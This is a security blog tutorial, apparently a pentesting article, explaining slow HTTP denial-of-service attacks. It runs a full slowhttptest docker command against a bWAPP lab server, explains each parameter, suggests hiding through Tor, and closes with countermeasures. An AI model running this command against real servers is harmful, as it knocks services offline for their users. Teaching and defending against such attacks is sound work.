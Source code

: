 :slug: asymmetric-dos-slow-http-attack/
:date: 2018-11-15
:category: attacks
:subtitle: The story of David and Goliath
:tags: security, vulnerability
:image: cover.png
:alt: greek statue with small angels.
:description: Here you'll learn how a slow HTTP attack works, how to inspect HTTP requests and responses, and you'll see how to perform an asymmetric denial of service.
:keywords: DoS, Vulnerability, Slowhttptest, Slow Body, HTTP, Asymmetric Attacks, Ethical Hacking, Pentesting
:author: Kevin Amado
:writer: kamadoatfluid
:name: Kevin Amado
:about1: Civil Engineer
:about2: "An algorithm must be seen to be believed" Donald Knuth
:source: https://unsplash.com/photos/Wf2tCunxqQU

= Asymmetric DoS, Slow HTTP Attack

Have you ever heard the story of David and Goliath?
David, a young boy, goes out to confront a giant, named Goliath.
David is the underdog in this fight and is expected to lose.
But, everyone underestimates David and his prowess with a slingshot.
When David ultimately kills Goliath,
he demonstrates that even a little guy can triumph
over the biggest and strongest of enemies.

Fine! Today we are going to talk about unequal scenarios.
Furthermore, we are going to battle one ourselves.

== Let's get started

So, let’s imagine, for a moment,
that all you need to kill the giant,
that everyone fears, is a little slingshot,
not a big mace, nor the strength of a thousand men.
Sound crazy? Well, it is. But it’s possible.

A cyber attack is considered "asymmetric"
in the sense that you only need a few resources,
in this case, a laptop,
in order to cause a considerable amount of damage,
malfunction or failure in the server.
A very real case of David vs. Goliath.

If we push hard enough, the server is going to stop providing the service to
other users, in other words, we will cause a _Denial of Service_ (DoS).

== How does a slow http attack work?

Imagine a line at the local fast food restaurant.
A customer at the head of the line
can't decide if he wants a burger or a hot-dog.
People behind him in line are getting mad;
they aren't getting their food
because he is holding up the whole line.

If you look at it in more detail,
all this customer needed to do was to "not know what to order".
His indecision basically caused a denial of service
for every other person waiting behind him at the counter, i.e., A DoS.

Now imagine the same line,
but the customer at the counter knows what he wants to order,
and he's ordering a thousand burgers and a hundred hot-dogs.
Again, this means everyone behind him in line
will have to wait while his order is filled.
The restaurant can take no more orders until his is complete.

The HTTP protocol works similarly, it requires requests to be fully received by
the final user before they are processed.

Two things can happen, if a request is not completed,
the server can either wait
or set the request as timed out after some few seconds.
However, if you let the request complete,
but at a slow rate, then the server will keep the resource busy
waiting for the end of the data.

What would happen if the customer orders a thousand burgers
and a hundred hot-dogs, but he can't decide
which sauces and drinks to order with them?
And, to make matters worse, he seems to be intentionally indecisive
and he's speaking very slowly.

The answer:

[button]#link:https://cwe.mitre.org/data/definitions/400.html[D.o.S.]#

This is exactly the idea behind a slow HTTP attack.

A web server keeps its active connections
in a relatively small connection pool.
We will try to tie all the connections in this pool
to slow requests, making the server reject other users.

== Let's do an HTTP request

First, let’s run a
[button]#link:http://www.itsecgames.com/[bWAPP]#
server on ip _192.168.56.101_.

.BWAPP server
image::bwapp-running.png[bwapp-running]

For now, let’s assume that we are at:

----
192.168.56.101/bWAPP/xss_post.php.
----

And we entered in the form:

.XSS page and input
image::xss-login-form.png[xss-login-form]

Once we access a page,
the browser is going to ask the server for some resources
(images, texts, `HTML` pages, `CSS` and `JavaScript` files, etc)
and we can see these requests and responses
from the command line using `curl`
(or Google Chrome, or Firefox, or `BURP`).

The process using _curl_ is:

[source, bash, linenums]
----
$ # login to the server so we can see as a logged user the page we want
$ curl -L -c post_login_cookie 'http://192.168.56.101/bWAPP/login.php' \
--data 'login=bee&password=bug&security_level=0&form=submit'
$ # result: a file is saved with name 'post_login_cookie'
$
$ # submit a post request with the data we want on the field
$ curl -L -b post_login_cookie -v \
-d "firstname=test1&lastname=test2&form=submit" \
http://192.168.56.101/bWAPP/xss_post.php
$ # output is displayed to console, we'll see it in a moment
----

As mentioned before,
every single resource is going to have a request and a corresponding response.
In other words, we are asking the server for the _xss_post.php_ resource with
the parameters:

.POST Parameters
[source, bash, linenums]
----
firstname=test1&lastname=test2&form=submit
----

Since we want to se an HTML page, _curl_ asks for it:

.curl, server request output
[source, bash, linenums]
----
*   Trying 192.168.56.101...
* TCP_NODELAY set
* Connected to 192.168.56.101 (192.168.56.101) port 80 (#0)
> POST /bWAPP/xss_post.php HTTP/1.1
> Host: 192.168.56.101
> User-Agent: curl/7.58.0
> Accept: */*
> Cookie: PHPSESSID=5fvb1fr053gmc2f91ooicvf1f5; security_level=0
> Content-Length: 41
> Content-Type: application/x-www-form-urlencoded
----

And the server replies with:

.curl, server response output
[source, bash, linenums]
----
* upload completely sent off: 41 out of 41 bytes
< HTTP/1.1 200 OK
< Date: Thu, 15 Nov 2018 21:31:32 GMT
< Server: Apache/2.2.14 (Ubuntu) mod_mono/2.4.3 PHP/5.3.2-1ubuntu4.30 with
Suhosin-Patch proxy_html/3.0.1 mod_python/3.3.1 Python/2.6.5 mod_ssl/2.2.14
OpenSSL/0.9.8k Phusion_Passenger/4.0.38 mod_perl/2.0.4 Perl/v5.10.1
< X-Powered-By: PHP/5.3.2-1ubuntu4.30
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Vary: Accept-Encoding
< Content-Length: 11291
< Content-Type: text/html
----

At this point,
nothing stops us from sending follow up headers with random values:

.POST Parameters
[source, bash, linenums]
----
firstname=FASLDKJFEI&lastname=test2&form=submit
----

wait some seconds...

.POST Parameters
[source, bash, linenums]
----
firstname=IEU182KSZ&lastname=test2&form=submit
----

And nothing stops us from simulating a slow connection
on each one of these requests,
so the server is going to have to wait
until we receive the full resource.

Why not do a thousand requests
until every single connection available on the server pool
is busy with us?

To do this, we are going to use a tool.

== Using slowhttptest

First, let's pull the
link:https://hub.docker.com/r/frapsoft/slowhttptest/[slowhttptest docker image]
from the docker hub.

.Bash command
[source, bash, linenums]
----
$ docker pull frapsoft/slowhttptest
----

And write the following command:

.Bash command
[source, bash, linenums]
----
$ sudo docker run --name DoSBWAPP --rm  frapsoft/slowhttptest \
-c 65539 -B -i 10 -l 300 -r 10000 -s 16384 -t firstname \
-u "http://192.168.56.101/bWAPP/xss_get.php" -x 10 -p 300
----

The parameters you see are described below:

.Slowhttptest description
|====
|-c 65539| use 65539 connections
|-B|specify to slow down the http in message body mode
|-i 10|seconds of interval between follow up data, per connection
|-l 300| duration of the test in seconds
|-p 300|timeout in seconds to wait for HTTP response on probe connection,
after which server is considered inaccessible
|-r 10000| connections per second
|-s 16384|value of Content-Length header
|-x 10|max length of follow up data in bytes
|-t firstname|add ?firstname=(-x 10bytes) to the target url
|-u URL|target URL
|====

While the attack is running a user that tries to access the service is going
to see:

.BWAPP is trying to connect without success
image::bwapp-while-attacking.png[bwapp-while-attacking]

If the attack is long enough, it is going to get timed out:

.BWAPP gets timed-out
image::bwapp-timed-out.png[bwapp-timed-out]

Once the attack is finished everything returns to a normal state:

.BWAPP working normally after attack
image::bwapp-attack-finished.png[bwapp-attack-finished]

Since we only need a few resources (the internet and a laptop)
we can even do it on a low-bandwidth connection.
Moreover, since we don't need too much bandwidth,
we can pass everything through a proxy
in the tor network and hide ourselves.

== Sounds scary, how do I protect myself?

Counter-measures depend mainly on your service.
Some useful mechanisms to prevent this kind of attacks are:

* Limit the number of resources an unauthorized user can expend.
* Set the header and message body to a maximum reasonable length.
* Define a minimum incoming data rate, and drop those that are slower.
* Set an absolute connection timeout.
* Use a Web Application Firewall.
* Reject connections with verbs not supported by the URL.

In cases where you need to set minimum and maximum limits,
it's a good idea to use the values from your statistics.
If the value is too short, you may risk dropping legitimate connections;
if it is too long, you won't get any protection from attacks.
Perhaps using a margin ranging
from one to two link:https://en.wikipedia.org/wiki/Normal_distribution#/media/File:Empirical_Rule.PNG[standard deviations]
may help you with this.

== Finally

I really hope that you liked this article.

I wish you a nice week, and will see you in another post!

== References

. [[r1]] Wikipedia (2018).
'Hypertext Transfer Protocol'.
link:https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol[Wiki].

. [[r2]] Sergey Shekyan (2018).
'Slowhttptest - Instalation and usage'.
link:https://github.com/shekyan/slowhttptest/wiki/InstallationAndUsage[Github wiki].

. [[r3]] Sergey Shekyan (2018).
'Application Layer DoS attack simulator'.
link:https://blog.qualys.com/tag/slow-http-attack[Docker hub].
